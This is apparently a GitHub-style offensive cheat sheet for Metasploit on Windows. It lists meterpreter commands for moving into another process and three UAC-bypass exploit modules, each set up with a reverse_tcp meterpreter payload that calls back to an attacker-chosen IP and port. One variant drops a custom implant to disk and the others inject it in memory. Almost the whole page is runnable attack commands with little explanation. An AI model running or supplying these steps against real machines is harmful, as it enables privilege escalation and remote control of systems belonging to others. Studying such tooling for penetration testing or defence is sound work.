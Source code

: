 # Metasploit

Migrate to a 64-bit process ID architecture in order to perform privilege escalation

```
meterpreter > migrate <pid>

meterpreter > migrate -N <process_name>.exe

meterpreter > background
```

There are two MSF modules for **BypassUAC**

This uses a payload as a dropper (this will touch the disk).

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac

msf exploit(windows/local/bypassuac) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac) > set target Windows x64

msf exploit(windows/local/bypassuac) > set exe::custom /path/to/local/custom_implant.exe

msf exploit(windows/local/bypassuac) > run lhost=<IP> lport=<PORT> session=<session_id>
```

This will execute it through memory

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_injection

msf exploit(windows/local/bypassuac_injection) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac_injection) > set target Windows x64

msf exploit(windows/local/bypassuac_injection) > set exe::custom /path/to/local/custom_implant.exe

msf exploit(windows/local/bypassuac_injection) > run lhost=<IP> lport=<PORT> session=<session_id>
```

Performing Privilege escalation that abuses WinSXS

```
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_injection_winsxs

msf exploit(windows/local/bypassuac_injection_winsxs) > set payload /windows/x64/meterpreter/reverse_tcp

msf exploit(windows/local/bypassuac_injection_winsxs) > set target Windows x64

msf exploit(windows/local/bypassuac_injection_winsxs) > set exe::custom /path/to/local/custom_implant.exe

msf exploit(windows/local/bypassuac_injection_winsxs) > run lhost=<IP> lport=<PORT> session=<session_id>
```